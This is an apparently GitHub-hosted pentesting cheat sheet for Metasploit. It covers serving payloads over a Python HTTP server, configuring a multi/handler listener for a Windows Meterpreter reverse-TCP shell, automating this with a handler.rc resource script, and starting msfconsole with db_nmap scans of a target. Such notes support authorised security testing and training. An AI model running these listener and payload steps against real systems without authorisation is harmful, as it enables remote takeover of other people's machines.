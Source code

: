 ```
# Upload the payload on the target and try it with MSFconsole
cd Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload <MSFVENOM_PAYLOAD>
set LHOST <MSFVENOM_LOCAL_HOST_IP>
set LPORT <MSFVENOM_LOCAL_PORT>
run
```

```
# Automation
ls -lah /usr/share/metasploit-framework/scripts/resource

# Create a handler resource
nano handler.rc
# Insert the following lines
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
# Save it and exit

msfconsole -q -r handler.rc

# msfconsole
resource handler.rc

# Export inserted msfconsole commands into a resource script
makerc <FILE>.rc
```

**Win Exploitation**



**Default MSF Start**

```
service postgresql start && msfconsole -q
```

```
db_status
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
workspace -a <SERVICE_NAME>
db_nmap -sS -sV -O <TARGET_IP>
# db_nmap -sS -sV -O -p- <TARGET_IP>

# For every exploit, check 'options' and 'info', setup accordingly
```
